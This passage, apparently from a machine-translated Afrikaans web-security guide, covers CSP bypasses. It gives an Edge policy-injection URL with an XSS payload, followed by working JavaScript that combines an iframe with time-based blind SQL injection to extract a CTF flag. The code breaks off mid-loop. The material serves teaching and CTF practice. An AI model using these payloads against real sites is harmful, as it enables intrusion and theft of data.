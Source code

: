 #### Edge

In Edge is dit baie eenvoudiger. As jy net hierdie in die CSP kan byvoeg: **`;_`** **Edge** sal die hele **beleid** **verwerp**.\
Voorbeeld: [http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E](<http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;_&y=%3Cscript%3Ealert(1)%3C/script%3E>)

### img-src \*; via XSS (iframe) - Tydaanval

Let op die gebrek aan die riglyn `'unsafe-inline'`\
Hierdie keer kan jy die slagoffer **dwing** om 'n bladsy in **jou beheer** te laai via **XSS** met 'n `<iframe`. Hierdie keer gaan jy die slagoffer dwing om toegang te verkry tot die bladsy waarvandaan jy inligting wil onttrek (**CSRF**). Jy kan nie die inhoud van die bladsy toegang nie, maar as jy op een of ander manier die **tyd wat die bladsy benodig om te laai** kan **beheer**, kan jy die inligting wat jy nodig het onttrek.

Hierdie keer gaan 'n **vlag** onttrek word, wanneer 'n **karakter korrek geraai** word via SQLi neem die **antwoord** **meer tyd** weens die slaapfunksie. Dan sal jy in staat wees om die vlag te onttrek:
```html
<!--code from https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle -->
<iframe name="f" id="g"></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org"
function gen(x) {
x = escape(x.replace(/_/g, "\\_"))
return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`
}

function gen2(x) {
x = escape(x)
return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`
}

async function query(word, end = false) {
let h = performance.now()
f.location = end ? gen2(word) : gen(word)
await new Promise((r) => {
g.onload = r
})
let diff = performance.now() - h
return diff > 300
}

let alphabet = "_abcdefghijklmnopqrstuvwxyz0123456789".split("")
let postfix = "}"

async function run() {
let prefix = "nn9ed{"
while (true) {
let i = 0
for (i; i < alphabet.length; i++) {
let c = alphabet[i]
let t = await query(prefix + c) // Check what chars returns TRUE or FALSE
console.log(prefix, c, t)
if (t) {
console.log("FOUND!")
prefix += c
break
}
}
```